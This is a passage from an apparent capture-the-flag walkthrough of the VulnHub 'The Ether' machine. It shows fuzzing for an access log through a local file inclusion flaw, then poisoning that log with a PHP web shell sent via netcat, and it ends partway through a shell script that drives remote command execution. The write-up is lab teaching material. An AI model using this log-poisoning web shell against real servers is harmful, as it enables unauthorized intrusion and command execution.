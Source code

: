 Sweet.

## Access Log

Since I can't access the default `/var/log/apache2/access.log`, it's possible that the access log is elsewhere, perhaps even somewhere near.

Using `quickhits.txt` from SecLists with `fuzz.sh`, I'm able to map out this location.

```
# ./fuzz.sh "/var/www/html/theEther.comFUZZ" "^[0-9]" /usr/share/seclists/Discovery/Web_Content/quickhits.txt
...
[+] Trying /var/www/html/theEther.com/log.sqlite
[+] Trying /var/www/html/theEther.com/log.txt
[+] Trying /var/www/html/theEther.com/log/
[+] Trying /var/www/html/theEther.com/log/access.log

[!] Found: http://192.168.198.130/?file=/var/www/html/theEther.com/log/access.log
```

## LFI to Shell

Now that I've found `access.log`, I can corrupt it by sending PHP code through `netcat`.

```
# nc 192.168.198.130 80
<pre><?php echo shell_exec($_GET['cmd']);?></pre>
HTTP/1.1 400 Bad Request
Date: Thu, 08 Feb 2018 20:22:21 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 304
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at theEther.com Port 80</address>
</body></html>
```

With this in mind, I wrote another script to clean up the output from the remote command execution.

<div class="filename"><span>cmd.sh</span></div>
```bash
#!/bin/bash

HOST=192.168.198.130
ACCESS=/var/www/html/theEther.com/log/access.log
CMD="$@"

function urlencode() {
    echo -n "$1" \
    | xxd -p \
    | sed -r 's/(..)/%\1/g'
}

while getopts ":e" opt; do
    case $opt in
        e)
```

[1]: https://www.vulnhub.com/entry/the-ether-evilscience-v101,212/
[2]: https://securityshards.wordpress.com/
[3]: https://www.vulnhub.com/
[4]: https://httpd.apache.org/docs/2.4/mod/core.html#documentroot
[5]: https://github.com/danielmiessler/SecLists